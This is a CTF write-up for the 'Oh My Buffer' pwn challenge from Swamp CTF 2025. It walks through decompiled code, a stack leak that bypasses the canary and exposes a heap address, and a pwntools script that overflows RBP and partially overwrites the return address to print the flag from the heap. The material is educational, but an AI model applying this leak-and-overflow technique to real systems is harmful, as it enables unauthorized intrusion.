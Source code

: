 ```yaml
---
title: Oh My Buffer
date: 2025-03-30T22:47:05+03:00
description: Writeup for Oh My Buffer [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I may have messed up my I/O calls, but it doesn't matter if everything sensitive has been erased, right?

## Intuition

Open the binary in Ghidra:

```c

void main(void)

{
  int fd_devnull;
  __pid_t _Var1;
  int tmp;
  int tmp2;
  int tmp3;
  long in_FS_OFFSET;
  char local_71;
  int fd_stdout;
  int opt;
  FILE *local_68;
  FILE *devnull;
  char flag [72];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_68 = fopen("flag.txt","r");
  fgets(flag,0x40,local_68);
  fclose(local_68);
  devnull = fopen("/dev/null","w");
  fd_stdout = dup(1);
  fd_devnull = fileno(devnull);
  dup2(fd_devnull,1);
  puts("Here\'s the flag, too bad we don\'t let you see this:");
  fflush(stdout);
  fputs(flag,stdout);
  memset(flag,0,0x40);
  dup2(fd_stdout,1);
  close(fd_stdout);
  fclose(devnull);
  _Var1 = fork();
  if (_Var1 == 0) {
    while( true ) {
      do {
        while( true ) {
          write(1,"===================\n",0x14);
          write(1,"Welcome to the box!\n",0x14);
          write(1,"1) Register\n",0xc);
          write(1,"2) Login\n",9);
          write(1,"3) Exit\n",8);
          write(1,"> ",2);
          do {
            tmp = getchar();
            local_71 = (char)tmp;
          } while (local_71 == '\n');
          opt = atoi(&local_71);
          opt = opt % 3;
          do {
            tmp2 = getchar();
          } while (tmp2 != 10);
          write(1,"-------------------\n",0x14);
          tmp3 = opt % 3;
          if (tmp3 != 2) break;
          login();
        }
      } while (2 < tmp3);
      if (tmp3 == 0) break;
      if (tmp3 == 1) {
        reg();
      }
    }
    _exit(0);
  }
  wait((void *)0x0);
  _exit(0);
}
```

The main function is not very interesting. It reads the flag but prints it to `/dev/null`. Then it deletes it from the stack and puts us in `the box`.
The box has three options: Register, Login, and Exit.

The following function is the `reg()` function:

```c
void reg(void)
{
  long in_FS_OFFSET;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"Username: ",10);
  read(0,local_28,0x2a);
  write(1,"Password: ",10);
  read(0,local_28,0x2a);
  write(1,"Sorry, registration isn\'t open right now!\n",0x2a);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

It is quite obvious there is a buffer overflow in both reads, which allows us to both poison the RBP and overwrite 2 bytes of the return address.
But the stack cookie is quite a pain. Meanwhile, in the `login()` function:

```c
void login(void)
{
  long in_FS_OFFSET;
  int local_2c;
  undefined name [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"How long is your username: ",0x1b);
  __isoc99_fscanf(stdin,"%d",&local_2c);
  write(1,"Username: ",10);
  read(0,name,0x10);
  write(1,"Sorry, we couldn\'t find the user: ",0x22);
  write(1,name,(long)local_2c);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Because we control the write size through `local_2c`, we can leak arbitrary amount of stack content. We can leak the canary and a heap address.
Why should we leak a heap address? Because the flag was also stored there after the `fputs()` function call in `main()`:

```
$ gdb -q ./binary
pwndbg> break fputs
Breakpoint 1 at 0x4010b0
pwndbg> r
pwndbg> fin
pwndbg> search "ctf{"
Searching for value: 'ctf{'
[heap]          0x405480 "ctf{.hidden_baby!}\no bad we don't let you see this:\n"
[stack]         0x7fffffffdd80 'ctf{.hidden_baby!}\n'
```

Great, so even if the stack buffer is zero'd out, we still have the flag on the heap. So strategy is as follows:

1. Leak a bunch of stack data with `login()`.
2. Get heap address leak.
3. Get canary.
4. Overflow the RBP and return address in `reg()`.

But where should we jump? We only have 2 bytes we can change and there's not a lot of good targets.
We have control over RBP, so maybe we can find something that prints a string found relative to RBP?

There is exactly that inside `login()`:

```
0040139b 48 8d 45      LEA       RAX=>name,[RBP + -0x20]
         e0
0040139f 48 89 c6      MOV       RSI,RAX
004013a2 bf 01 00      MOV       EDI,0x1
         00 00
004013a7 e8 b4 fc      CALL      <EXTERNAL>::write                          ssize_t write(int __fd, void
         ff ff
```

Luckily, the RDX register (which is the size of the write) is some big number when we get to jump here.
So everything falls into place! Last and final steps:

5. Change RBP to flag location on the heap + 0x20.
6. Change lower bytes of return address to `0x139b`.
7. Win!

## Solution

Here's what I explained above, but in a script:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./binary")
target = remote("chals.swampctf.com", 40005)

target.recvuntil(b"> ")
target.sendline(b"2")
target.recvuntil(b"ame: ")
target.sendline(b"80")
target.recvuntil(b"ame: ")
target.sendline(b"a" * 0xf)

leak = target.recv(150)
cookie = u64(leak[58:66])
leak = u64(leak[106:114])
flag = leak - 480 + 0x20 + 960

payload = 0x18 * b"a" + p64(cookie) + p64(flag) + b"\x9b\x13"

target.recvuntil(b"> ")
target.sendline(b"1")
target.recvuntil(b"me: ")
target.sendline(payload)
target.recvuntil(b"rd: ")
target.sendline(payload)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40005: Done
b"\x00W\xed\xee+'\xd4\xfb"
b'\xa0\xd2\xe1\x1f\x00\x00\x00\x00'
0x1fe1d4a0
[*] Switching to interactive mode
Sorry, registration isn't open right now!
swampCTF{fUn_w1tH_f0rk5_aN6_fd5}
 let you *** stack smashing detected ***: terminated
```

